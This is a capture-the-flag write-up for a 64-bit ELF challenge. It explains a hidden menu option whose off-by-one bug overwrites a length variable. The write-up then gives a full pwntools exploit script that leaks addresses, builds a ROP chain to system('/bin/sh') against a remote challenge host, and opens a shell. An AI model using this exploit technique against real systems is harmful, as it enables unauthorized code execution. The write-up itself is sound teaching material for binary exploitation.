




### Information
We were given a 64bit ELF file.
When we run the binary, the program is showing a menu , ( read run and exit ). The run function is useless, so we can only perform the read operation.



But when decompiling the binary, we have one more option that is not shown in the menu message, which is "gomugomunomi" that calls mugiwara function.

The **mugiwara** function seems a bit complicated,first it initialize an integer variable named  **len** to 40.

Then it's copying each char of the buffer that we've read from the readSC function into another buffer.Finally, it's using fgets to read "len" bytes.

Inside the loop, it's checking if the char is 'z', if true, it'll execute buffer2[++i] = 0x89. So the idea is to trigger an off-bye-one bug by giving some buffer terminated by "zz". 

Example : buffer = "A"*37 + "zz"
When the loop reaches i = 37 ==> buffer[37] = 'z' , condition true, ==> buffer[++37] = buffer[38] = 0x89 , i++
                      i = 39 ==> buffer[39] = 'z', condition true, ==> buffer[++39] = buffer[**40**] = 0x89 i++
the last operation will trigger a bufferoverflow, overwriting the **len** variable  by 0x89 which will be used in the fgets.
                      
                      







### Exploitation
- Determine libc version (using [libc blucat](https://libc.blukat.me/) as an example)
- Calculate libc base address
- find /bin/bash address
- system("/bin/bash")
```python
from pwn import *
from time import sleep
#p = process("./one_piece")
p = remote("100.26.85.87",1238)
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF('libc6_2.30-0ubuntu2_amd64.so')
payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaazz"
p.sendline("read")
p.sendline(payload)
p.sendline("gomugomunomi")
p.recvuntil("right ? : ")
leak = int("0x" + p.recvline(),16)
binaire = leak - 0xa3a
puts_plt = binaire + 0x720
printf_plt = binaire + 0x1040
#Gadgets
poprdi = binaire + 0xba3
ret = binaire + 0x000000000000070e

log.info("binary base = "+hex(binaire))
pause()
payload = ""
payload += cyclic(56)
payload += p64(ret)
payload += p64(poprdi)
payload += p64(binaire+0x201fa0) #puts_got
payload += p64(puts_plt)
payload += p64(binaire+0x7a0) #_start

p.sendline(payload)
p.recvline()

leaklibc = u64(p.recvline().ljust(8,"\x00")) % 0xa000000000000
print "leaklibc = ",hex(leaklibc)
base = leaklibc - libc.symbols['puts']
log.info("libc base = "+hex(base)) 
p.sendline("read")
p.sendline("A"*37 + "zz")
p.sendline("gomugomunomi")
sleep(2)
system = base + libc.symbols['system']
binsh = base + libc.search("/bin/sh").next()
log.info("/bin/sh = "+hex(binsh))
log.info("system = "+hex(system))
payload = ""
payload += cyclic(56)
payload += p64(ret)
payload += p64(poprdi)
payload += p64(binsh)
payload += p64(system)
payload += p64(leak+0x5)
p.sendline(payload)
log.warn("sending payload ...")
p.sendline("cat flag.txt")
p.interactive()
```
